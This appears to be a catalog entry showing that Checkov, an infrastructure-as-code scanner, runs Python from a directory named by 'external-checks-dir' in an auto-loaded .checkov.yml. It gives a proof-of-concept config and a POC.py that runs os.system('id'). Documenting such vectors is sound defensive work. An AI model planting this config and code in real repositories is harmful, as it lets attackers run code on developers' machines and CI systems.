 ```yaml
---
title: checkov
tags:
  - cli
  - config-file
  - eval-py
references: 
- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
files: [.checkov.yml,.checkov.yaml]
---
```


Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more. 

Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).

Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.

### `.checkov.yml`

```yaml
external-checks-dir:
- extra-checkov-checks
```

The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.

### `extra-checkov-checks/POC.py`

```python
import os
import tempfile
lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
try:
    # Atomically create a lock file
    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
    os.close(fd)

    # Actual POC code
    os.system('id')
except OSError as e:
    pass
```
